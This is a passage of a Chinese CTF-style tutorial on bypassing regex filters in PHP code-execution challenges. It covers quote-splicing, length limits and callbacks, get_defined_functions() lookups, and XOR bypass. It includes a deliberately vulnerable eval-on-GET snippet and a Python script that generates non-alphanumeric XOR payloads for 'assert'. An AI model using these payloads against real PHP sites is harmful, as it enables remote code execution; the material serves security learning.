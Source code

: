 
<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210602155232664.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210602155238832.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

> 
如果PHP版本大于7这里还可以用拼接的方法绕过过滤引号


> 
如果碰到参数长度受限制，也可以通过多次传参的方法绕过参数长度限制或者回调函数


> 
回调函数可能大部分看限制的具体长度，但是在PHP &gt;= 5.6 &amp; PHP &lt; 7时对以上过滤方法可以绕过


## 内置函数访问绕过

> 
适用于PHP版本：Windows本地测试的是PHP&gt;=7可以成功，PHP5测试虽然报错但是并不肯定不能使用<br/> `get_defined_functions()`：返回所有已定义函数的数组<br/> 利用这种方法首先还需要知道PHP的具体版本，因为每个版本的get_defined_functions()返回的值都是不一样的，这里以php7.3.4为准


<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/2021060216080145.png#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210602160807899.png#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210602161219883.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

## 异或绕过

> 
适用PHP版本：无限制<br/> 例如：我们异或 ? 和 ~ 之后得到的是 A


```
&lt;?php
highlight_file(__FILE__);
error_reporting(0);
if(preg_match('/[a-z0-9]/is', $_GET['shell'])){
	echo "hacker!!";
}else{
	eval($_GET['shell']);
}
?&gt;

```

```
异或脚本

# -*- coding: utf-8 -*-
payload = "assert"
strlist = [0, 1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14, 15, 16, 17, 18, 19, 20, 21, 22, 23, 24, 25, 26, 27, 28, 29, 30, 31, 32, 33, 35, 36, 37, 38, 40, 41, 42, 43, 44, 45, 46, 47, 58, 59, 60, 61, 62, 63, 64, 91, 93, 94, 95, 96, 123, 124, 125, 126, 127]
#strlist是ascii表中所有非字母数字的字符十进制
str1,str2 = '',''

for char in payload:
    for i in strlist:
        for j in strlist:
            if(i ^ j == ord(char)):
                i = '%{:0&gt;2}'.format(hex(i)[2:])
                j = '%{:0&gt;2}'.format(hex(j)[2:])
                print("('{0}'^'{1}')".format(i,j),end=".")
                break
        else:
            continue
        break

```
